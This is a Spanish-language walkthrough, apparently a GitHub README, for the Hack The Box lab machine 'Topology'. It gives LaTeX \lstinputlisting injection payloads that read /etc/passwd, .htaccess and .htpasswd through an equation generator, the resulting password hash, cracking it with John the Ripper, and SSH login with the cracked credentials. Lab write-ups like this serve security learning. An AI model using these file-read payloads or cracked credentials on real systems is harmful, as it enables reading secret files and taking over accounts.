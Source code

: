 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=60&color=19AC26FF&width=500&height=80&lines=Topology"></a>
</p>

**Online:** https://app.hackthebox.com/machines/546

**Paso 1:**

Primero vamos a editar el fichero etc/hosts y agregar el sgiuiente dominio:

```
10.10.11.217    latex.topology.htb
```

<p align="center">
<img src="./Img/dominio.png">
</p>

**Paso 2:**

Ahora vamos a acceder en **LaTeX Equation Generator** y nos pedira que ingresemos un código de látex y vamos a ingresar en orden los siguientes codigos:

<p align="center">
<img src="./Img/latex.png">
</p>

```latex
$\lstinputlisting{/etc/passwd}$

$\lstinputlisting{/var/www/dev/.htaccess}$

$\lstinputlisting{/var/www/dev/.htpasswd}$
```

nos dara un hash, creamos un archivo sin extencion y guardamos el hash **vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0**

<p align="center">
<img src="./Img/hash.png">
</p>

```
nano hash
```

**Paso 3:**

Ahora usaremos John the Ripper para decifrar el hash

```
sudo john hash --show
```

<p align="center">
<img src="./Img/john.png">
</p>

nos dara como usuario y contraseña **vdaisley:calculus20**

**Paso 4:**

Ahora vamosa conectarnos mediante ssh ingresando la contraseña que obtuvimos:

```
sudo ssh vdaisley@10.10.11.217
```

por ultimo leemos el archivo **user.txt** y nos dara como resultado la bandera.